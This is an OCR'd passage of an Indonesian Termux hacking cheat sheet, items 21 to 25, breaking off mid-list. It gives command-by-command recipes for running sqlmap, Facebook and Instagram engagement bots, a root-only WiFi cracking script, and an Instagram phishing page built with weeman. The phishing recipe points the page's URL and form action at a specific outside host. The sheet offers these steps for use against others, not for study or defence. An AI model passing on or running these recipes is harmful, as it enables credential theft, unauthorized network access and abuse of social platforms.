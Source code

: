 python2 bangdjon.py
melihat id fb
https://findmyfbid.in/
Autoreaction Facebook
git clone https://github.com/tomiashari/fb-autoreaction.git
cd fb-autoreaction
python2 fb-autoreaction
•TOOLS²TERMUX.P3
21.TOOLS SQLMAP
apt update
apt install python
apt install python2
apt install git
git clone https://github.com/sqlmapproject/sqlmap
cd sqlmap
python2 sqlmap.py
=============================
22.TUTORIAL PHISING INSTAGRAM VIA TERMUX
pkg update
pkg upgrade
pkg install python2
pkg install git
clear
git clone https://github.com/evait-secutiry/weeman.git
cd
ls
cd weeman
python2 weeman.py
show
set url http://dewopanel.host22.com/masuk.php
set port 8080
set action_url http://dewopanel.host22.com/masuk.php
run
=============================
23.TUTORIAL MENAMBAH FOLLOWERS&LIKE INSTAGRAM
Kegunaan untuk menambah follower dan like ig
pkg update
pkg upgrade
pkg install python2
pkg install ruby
gem install lolcat
pkg install git
git clone https://github.com/Hanzelnutt/instabot
cd instabot
ls
pip2 install -r requirements.txt
bash instabot
=============================
24.TUTOR HACK WIFI KHUSUS ROOT
apt update
apt upgrade
apt install git
git clone https://github.com/esc0rtd3w/wifi-hacker
ls
cd wifi-hacker
ls
chmod +x wifi-hacker.sh
ls
./wifi-hacker.sh
=============================
25.TOOLS xNOT_FOUND *VER1*
apt update && apt upgrade
pkg install git
pkg install gem